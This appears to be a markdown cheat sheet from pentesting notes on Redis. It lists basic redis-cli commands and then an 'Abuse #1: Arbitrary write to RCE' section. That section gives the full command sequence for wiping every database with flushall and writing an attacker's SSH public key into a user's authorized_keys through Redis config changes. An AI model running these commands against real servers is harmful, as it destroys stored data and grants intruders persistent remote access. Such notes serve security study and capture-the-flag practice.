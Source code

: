 ```yaml
---
title: "Redis"
date: 2024-7-6
tags: ["redis", "redis-cli", "privesc"]
---
```


### Basic

<div>

```console
# Connect
redis-cli -h 127.0.0.1
```

```console
# Provide password
auth <PASSWORD>
```

```console
# List current keys
keys *
```

```console
# Add key
incr key
```

```console
# Get key value
get key
```

<div>

<br>

---

### Abuse #1: Arbitrary write to RCE

<div>

```console
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

```console
# Deletes all keys from all databases on current host
redis-cli -h 127.0.0.1 flushall
```

```console
cat foo.txt | redis-cli -h 127.0.0.1 -x set crackit
```

```console
redis-cli -h 127.0.0.1 config set dir /home/<USER>/.ssh/
```

```console
redis-cli -h 127.0.0.1 config set dbfilename "authorized_keys"
```

```console
redis-cli -h 127.0.0.1 save
```

</div>

<br>
